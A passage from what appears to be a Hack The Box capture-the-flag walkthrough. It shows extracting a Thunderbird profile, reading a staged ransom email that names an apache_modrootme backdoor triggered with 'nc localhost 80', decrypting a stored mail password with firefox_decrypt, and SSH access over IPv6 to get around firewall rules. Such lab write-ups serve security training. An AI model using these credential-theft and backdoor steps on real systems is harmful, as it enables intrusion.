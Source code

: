 Decompressing it locally:
```markdown
tar -jxvf firefox.tar.bz2
```

Moving the folder into the default Thunderbird default folder for profiles:
```markdown
mv 36jinndk.default/ ~/.thunderbird/
```

The profiles can be accessed by adding it in the _profiles.ini_ and starting Thunderbird with the `-ProfileManager` parameter.

In the mailbox there is one received mail from _WhiteRose[@]DarkArmy.htb_ with a ransom note:
```markdown
Hello,

I left note on "Leave a tip" page but no response.  Major vulnerability exists in your site!  This gives code execution. Continue to investigate us, we will sell exploit!  Perhaps buyer will not be so kind.

For more details place 1 million ecoins in your wallet.  Payment instructions will be sent once we see you move money.
```

After this, _dom_ contacted _elliot_ to investigate the issue:
```markdown
Elliot.

We got a suspicious email from the DarkArmy claiming there is a Remote Code Execution bug on our Webserver.  I don't trust them and ran rkhunter, it reported that there a rootkit installed called: apache_modrootme backdoor.

According to my research, if this rootkit was on the server I should be able to run "nc localhost 80" and then type "get root" to get a root shell.   However, the server just errors out without providing any shell at all.  Would you mind checking if this is a false positive?
```

This information could be useful later.
In the meantime we can extract the password of _dom_ by using [Firefox-Decrypt](https://github.com/Unode/firefox_decrypt) which also works on Thunderbird profiles:
```markdown
python firefox_decrypt.py /root/.thunderbird/
```

When it asks for a password just pressing `enter` works as the profile is not password protected.
It outputs a password for _dom_:
```markdown
Website:   imap://crimestoppers.htb
Username: 'dom@crimestoppers.htb'
Password: 'Gummer59'
```

Changing users can be either done with `su -` from _www-data_ to _dom_ or by using SSH on the IPv6 address to login via SSH as there are firewall rules on IPv4:
```markdown
ssh dom@dead:beef::250:56ff:feb9:f170
```
